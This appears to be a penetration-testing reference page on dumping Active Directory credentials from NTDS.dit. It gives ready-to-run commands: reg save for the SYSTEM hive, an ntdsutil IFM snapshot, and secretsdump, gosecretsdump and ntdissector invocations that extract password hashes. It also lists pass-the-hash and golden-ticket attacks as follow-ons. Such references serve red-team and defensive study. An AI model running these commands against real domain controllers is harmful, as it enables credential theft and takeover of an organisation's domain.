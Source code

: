 # NTDS Secret Extraction

## Theory

### NTDS Secret

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/password-spraying), [stuffing](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/stuffing), [shuffling](https://www.thehacker.recipes/a-d/movement/credentials/shuffling), [cracking](https://www.thehacker.recipes/a-d/movement/credentials/cracking), [pass-the-hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth), [overpass-the-hash](https://www.thehacker.recipes/a-d/movement/kerberos/ptk) or [silver or golden tickets](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets).



***

## Practical

### Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](https://www.thehacker.recipes/a-d/movement/credentials/dumping/sam-and-lsa-secrets), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD Maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="info" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Secrets Dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

#### [Impackt's Secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```
./secretsdump.py -ntds ~/Downloads/regbackup/ntds.dit -system ~/Downloads/regback/SYSTEM LOCAL
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>Impacket's Secretsdump Output</p></figcaption></figure>

#### [Ntdissector](https://github.com/synacktiv/ntdissector)

```
# Dump users, groups and domain backup keys
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f user,group,secret

# Dump all records from the database
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f all
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Ntdissector's Output</p></figcaption></figure>

***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds](https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds)
* [https://www.hackingarticles.in/credential-dumping-ntds-dit/](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
* [https://github.com/synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
* [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

